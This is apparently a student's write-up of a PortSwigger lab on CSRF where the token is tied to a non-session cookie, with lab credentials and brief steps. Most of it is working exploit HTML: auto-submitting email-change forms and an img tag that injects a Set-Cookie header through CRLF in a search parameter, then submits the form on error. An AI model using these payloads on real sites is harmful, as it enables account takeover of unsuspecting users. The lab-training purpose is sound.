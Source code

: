 # CSRF where token is tied to non-session cookie

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```javascript
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

---

### step 1

login weiner account
change email and send to repeter
try to change csrf code into repeater and test
csrf and csrfkey both are related to each other

### step2

login to carlos account
inspect login page for csrfkey and csrf token

![[csrf_token.png]]
![[csrfkey.png]]

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0ade0013041db8728074596200e7003b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="exa@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="htsrRRjOPn24ZUczIAQWd2Rm9rBdjB5Y"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <img
      src="https://0ade0013041db8728074596200e7003b.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=AYQwOigWLF9sDxmw11TpMZxchGIHbSRM%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```
